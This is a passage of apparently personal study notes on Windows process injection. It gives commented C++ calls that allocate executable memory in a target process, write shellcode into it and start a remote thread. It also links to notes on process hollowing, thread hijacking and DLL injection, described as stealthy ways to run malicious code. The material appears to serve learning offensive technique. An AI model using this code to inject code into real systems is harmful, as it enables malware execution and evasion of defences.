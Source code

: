 Step 2:

```cpp
remoteBuffer = VirtualAllocEx(
	processHandle, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

Step 3:

```cpp
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```

Step 4:

```cpp
remoteThread = CreateRemoteThread(
	processHandle, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
);
```

Then once the binary or program is compiled and we have a list of process ID that we want to inject:

![[Abusing Windows Internals-2.png|450]]

**Other Techniques:** (Moved to their dedicated file due to file size.)

- [[Process Hollowing|Injects a malicious executable into a suspended legitimate process by unmapping its original memory and replacing it with custom PE code, allowing stealthy code execution under a trusted process name.]]

- [[Abusing Process Components|Injects shellcode into a remote process by hijacking one of its existing threads, redirecting its execution flow to malicious code without creating a new thread, improving stealth.]]

- [[Abusing DLLs|Injects a malicious DLL into a target process by allocating memory for its path and using CreateRemoteThread to call LoadLibrary, enabling execution of attacker-controlled code inside another process.]]
